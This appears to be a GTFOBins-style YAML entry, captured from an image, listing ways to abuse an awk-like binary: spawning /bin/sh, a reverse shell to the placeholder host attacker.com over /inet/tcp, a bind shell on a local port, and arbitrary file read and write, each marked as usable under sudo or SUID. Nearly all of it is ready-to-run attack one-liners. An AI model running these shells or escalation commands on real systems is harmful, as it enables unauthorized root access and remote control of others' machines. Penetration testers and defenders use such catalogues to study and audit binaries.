 ```yaml
---
functions:
  execute:
    examples:
      - code: BINARY 'BEGIN {system("/bin/sh")}'
    features:
      - interactive
      - sudo-enabled
      - suid-enabled

  reverse-shell:
    examples:
      - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
        code: |
          RHOST=attacker.com
          RPORT=12345
          BINARY -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
              s = "/inet/tcp/0/" RHOST "/" RPORT;
              while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
              while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
    features:
      - non-interactive
      - sudo-enabled
      - suid-enabled

  bind-shell:
    examples:
      - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
        code: |
          LPORT=12345
          BINARY -v LPORT=$LPORT 'BEGIN {
              s = "/inet/tcp/" LPORT "/0/0";
              while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
              while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
    features:
      - non-interactive
      - sudo-enabled
      - suid-enabled

  file-read:
    examples:
      - code: |
          LFILE=file_to_read
          BINARY '//' "$LFILE"
    features:
      - sudo-enabled
      - suid-enabled

  file-write:
    examples:
      - code: |
          LFILE=file_to_write
          BINARY -v LFILE=$LFILE 'BEGIN { print "data" > LFILE }'
    features:
      - sudo-enabled
      - suid-enabled
---
```

